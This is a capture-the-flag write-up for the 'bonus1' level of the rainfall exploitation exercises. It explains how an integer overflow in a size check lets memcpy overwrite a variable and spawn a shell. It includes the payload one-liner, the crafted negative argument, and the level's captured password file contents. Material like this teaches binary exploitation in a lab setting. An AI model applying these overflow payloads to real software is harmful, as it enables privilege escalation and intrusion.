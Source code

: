 ## BONUS 1
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---
After the previous level this level could be one of the easiest level of rainfall.

```c
val = atoi(av[1]);
if (val < 10) {
    memcpy(str, av[2], val * 4);
    if (val == 0x574f4c46) {
        execl("/bin/sh", "sh", 0);
```

Here is the main part to understand in this level. To execute `execl`, we need to set the value of `val` to `0x574f4c46`. However, there is a condition right after the `atoi` function call. It is quite easy to understand that we need to use `memcpy` to change the value of `val`.

```asm
val address:
0x0804843d <+25>:	mov    %eax,0x3c(%esp)
buffer address:
0x08048464 <+64>:	lea    0x14(%esp),%eax
```

As I expected, the value is stored after the buffer. Since `memcpy` doesn't have any limitations except for the values provided as parameters, we can potentially use this function to overwrite the value of `val` and set it to `0x574f4c46`.

So we can right now write the second payload, this content must fill the buffer (who is 40 bytes long) than write the value expected by the program.

```shell
$ python -c "print('\x90' * 40 + '\x46\x4c\x4f\x57')" > /tmp/payload
```

Now we can focus on how `memcpy` can overwrite the value. We need to copy a total of 40 bytes, but the `if` condition restricts `val` to be no greater than 10, and `memcpy` copies `val * 4` bytes.

To overcome this limitation, I will harness the power of integer overflow by employing an **Integer Overflow Attack**. This entails providing a negative value as our first argument, which, when multiplied by 4, will result in a positive value greater than 40. We just to find this value and it's done.

For that I will use the binary conversion of 44.

`44 <==> 00000000 00000000 00000000 00101100`

Perfect! Now we know that multiplying a value by 4 is equivalent to left-shifting the value by 2 bits. Therefore, I will perform a right shift by 2 bits on this number.

`00000000 00000000 00000000 00001011`

Perfect but I want this number to be negative so I will put two `1` at the beginning of the number.

`11000000 00000000 00000000 00001011`

Perfect I just have to convert this number to decimal and I will have the value I need to provide as the first argument.

`11000000 00000000 00000000 00001011 <==> -1073741813`

Now I can execute the executable with the rights arguments and get the flag.

```shell
$ ./bonus1 -1073741813 $(cat /tmp/payload)
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

---

*Source :*

*https://www.binaryconvert.com/result_signed_int.html?hexadecimal=C000000B*

